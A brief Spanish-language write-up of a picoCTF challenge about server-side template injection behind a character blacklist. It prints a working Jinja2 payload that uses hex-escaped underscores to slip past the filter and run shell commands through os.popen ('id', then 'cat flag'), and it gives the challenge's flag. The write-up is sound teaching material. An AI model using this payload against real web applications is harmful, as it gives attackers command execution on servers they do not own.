 Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
Hints:
1.⁠ ⁠Server Side Template Injection
2.Why is blacklisting characters a bad idea to sanitize input?

Solución 1

Con inspeccion de elemento

Entramos a la página.
En https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ encontramos el siguiente script: 

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}


Al introducirlo en la página nos muestra: 

uid=0(root) gid=0(root) groups=0(root)


Cambiamos el script en el id para poner cat flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}


Notas adicionales

--------------------


Referencias

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/